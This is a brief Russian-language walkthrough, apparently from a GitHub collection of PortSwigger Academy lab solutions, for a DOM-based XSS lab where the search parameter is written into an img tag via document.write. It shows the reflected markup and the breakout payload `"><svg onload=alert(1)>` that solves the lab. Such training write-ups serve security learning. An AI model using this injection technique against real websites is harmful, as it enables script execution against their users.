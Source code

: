 перейдем на уязвимый ресурс и выполним поисковый запрос 
`qwe123`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/3.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/pics%20for%20walktrough/1.png)
Найдем запрос в хттп хистори
```
GET /?search=qwe123
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/3.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/pics%20for%20walktrough/2.png)
и увидим, следующую конструкцию для поискового запроса в ответе
```
<img src="/resources/images/tracker.gif?searchTerms='+query+'">
```
Попробуем выйти из нее, сконфигурировав поисковый запрос как

`"><svg onload=alert(1)>`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/3.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/pics%20for%20walktrough/4.png)
в результате чего, увидим что пэйлоад отработал и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/3.%20DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/pics%20for%20walktrough/3.png)

